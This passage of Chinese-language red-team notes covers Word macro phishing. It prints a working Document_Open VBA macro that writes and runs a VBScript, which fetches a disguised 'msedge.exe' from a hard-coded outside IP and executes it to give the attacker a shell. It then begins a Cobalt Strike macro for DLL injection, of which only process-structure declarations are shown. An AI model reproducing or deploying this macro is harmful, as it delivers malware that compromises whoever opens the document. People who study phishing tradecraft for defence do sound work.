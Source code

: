 ## 调WScript调JSCript/VBScript

```vbscript
Private Sub Document_Open()

    Open "de.vbs" For Output As #1
    Print #1, "Set xmlHttp = CreateObject(""MSXML2.XMLHTTP"") : Set adodbStream = CreateObject(""ADODB.Stream"") : url = ""http://100.1.1.131:8000/download/msedge.exe"" : username = CreateObject(""WScript.Network"").UserName : savePath = ""C:\\Users\\"" + username + ""\\AppData\\Local\\Temp\\msedge.exe"" : xmlHttp.Open ""GET"", url, False : xmlHttp.Send : If xmlHttp.Status = 200 Then adodbStream.Type = 1 : adodbStream.Open : adodbStream.Write xmlHttp.ResponseBody : adodbStream.SaveToFile savePath, 2 : adodbStream.Close : Set shell = CreateObject(""WScript.Shell"") : shell.Run savePath, 1, False Else WScript.Echo ""下载失败，状态代码："" & xmlHttp.Status End If : Set adodbStream = Nothing : Set xmlHttp = Nothing : Set shell = Nothing"
    Close #1
    Shell "wscript.exe de.vbs"

End Sub
```

受害者打开该文件会下载并上线 shell

![image-20240626170340011](http://cdn.ayusummer233.top/DailyNotes/202406261703093.png)

---

## CobaltStrike宏钓鱼(DLL注入)

![image-20240701113038801](http://cdn.ayusummer233.top/DailyNotes/202407011130434.png)

![image-20240701113217215](http://cdn.ayusummer233.top/DailyNotes/202407011132355.png)

![image-20240701113244190](http://cdn.ayusummer233.top/DailyNotes/202407011132325.png)

```vbscript
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

```
